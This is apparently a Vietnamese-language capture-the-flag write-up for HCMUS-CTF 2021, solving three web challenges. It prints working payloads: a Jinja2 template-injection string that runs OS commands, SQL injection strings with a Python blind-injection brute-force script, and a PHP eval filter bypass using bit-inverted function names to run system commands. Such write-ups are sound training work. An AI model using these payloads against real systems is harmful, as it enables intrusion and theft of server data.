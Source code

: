 # WRITE-UP-HCMUS-CTF-2021
## 1. Nothingness
+ Lỗi: SSTI
+ Payload: <pre><code>{{config.__class__.__init__.__globals__['os'].popen('ls').read()}}</code></pre>
+ ls ra 1 thư mục nữa thì thấy có file 'flag_HKOOS2lrdD'
+ Submit flag thôi: HCMUS-CTF{404_teMpl4t3_1njEctIon}

## 2. EasyLogin
+ Tìm cách đăng nhập admin. Thử <pre><code>admin' or 1=1--</code></pre> Thì ta nhận được được Nothing special
+ Order by thì biết được là SQLite3 và bảng này gồm 2 cột mình 
+ Thử union select 'admin', 2 Thì trang web trả về một tấm hình
+ Thử <pre><code>admin' or 1=2--</code></pre> thì nó vẫn ra tấm hình ban nãy -> Nếu đúng thì 'Nothing special' sai thì 'Well done' -> Burteforce
+ Brute tên bảng: 
<pre><code>
tbl_name = 'CREATE TABLE flagtablewithrandomname'
tbl = 'users, flagtablewithrandomname1'
sql = 'CREATE TABLE user(username, passw'
sql2 = ''
flag = ''
for i in range(1,50):
    for j in range(32,127):
        print(f"i\t\t{i}\t\t{j}",end='\r')
        resp = requests.post(url, data={
            "username": f"admin' or (select substr(flag,{i},1) FROM flagtablewithrandomname)=char({j})--",
            "passwd": "guest"
        })
        # print(resp.text)
        if "Nothing" in resp.text:
            flag += chr(j)
            print(f"tbl_name = {flag}")
            break 
</code></pre>
May mắn là tìm ra ngay flag lun:
+ ![image](https://user-images.githubusercontent.com/58381595/119288538-eccbb980-bc72-11eb-8b1f-e5d5e9401237.png)

# 3. SimpleCalculator
+ Sử dụng PHP eval() để thực hiện lệnh dc nhập vào -> WAF bypass
+ Chặn quote, alphabet và giới hạn kí tự-> sửa dụng '~' để đảo bit
+ ![image](https://user-images.githubusercontent.com/58381595/119289646-2a314680-bc75-11eb-9e46-b204ac314818.png)
+ Thử đảo phpinfo thành ' %8F%97%8F%96%91%99%90 ' rồi gửi ' (~%8F%97%8F%96%91%99%90)() ' Thì quả thật lệnh phpinfo() đã được thực hiện
+ system('ls -l') xem có gì nào : (~%8C%86%8C%8B%9A%92)(~%93%8C%DF%D2%93)
> Warning: Use of undefined constant ���ғ - assumed '���ғ' (this will throw an Error in a future version of PHP) in /var/www/html/index.php(21) : eval()'d code on line 1
total 4 -rwxrw-r--. 1 www-data root 856 May 18 11:52 index.php drwxr-xr-x. 1 www-data root 23 May 18 11:52 static drwxr-xr-x. 1 www-data root 23 May 18 11:52 static
+ Ra ngoài gốc lun xem có gì
> Warning: Use of undefined constant ���ғ�� - assumed '���ғ��' (this will throw an Error in a future version of PHP) in /var/www/html/index.php(21) : eval()'d code on line 1
total 4 drwxr-xr-x. 1 root root 28 May 12 12:48 bin drwxr-xr-x. 2 root root 6 Mar 19 23:44 boot drwxr-xr-x. 5 root root 360 May 23 13:13 dev drwxr-xr-x. 1 root root 66 May 23 13:13 etc -rwxrw-r--. 1 root root 25 May 18 11:52 fl4ggggH3reeeeeeeeeee drwxr-xr-x. 2 root root 6 Mar 19 23:44 home drwxr-xr-x. 1 root root 21 May 12 12:48 lib drwxr-xr-x. 2 root root 34 May 11 00:00 lib64 drwxr-xr-x. 2 root root 6 May 11 00:00 media drwxr-xr-x. 2 root root 6 May 11 00:00 mnt drwxr-xr-x. 2 root root 6 May 11 00:00 opt dr-xr-xr-x. 580 root root 0 May 23 13:13 proc drwx------. 1 root root 6 May 12 13:41 root drwxr-xr-x. 1 root root 36 May 23 13:13 run drwxr-xr-x. 1 root root 20 May 12 12:48 sbin drwxr-xr-x. 2 root root 6 May 11 00:00 srv dr-xr-xr-x. 13 root root 0 May 11 11:41 sys drwxrwxrwt. 1 root root 6 May 12 13:41 tmp drwxr-xr-x. 1 root root 19 May 11 00:00 usr drwxr-xr-x. 1 root root 17 May 12 12:43 var drwxr-xr-x. 1 root root 17 May 12 12:43 var
+ cat flag thui: system('nl /*') -> HCMUS-CTF{d4ngErous_eVal}
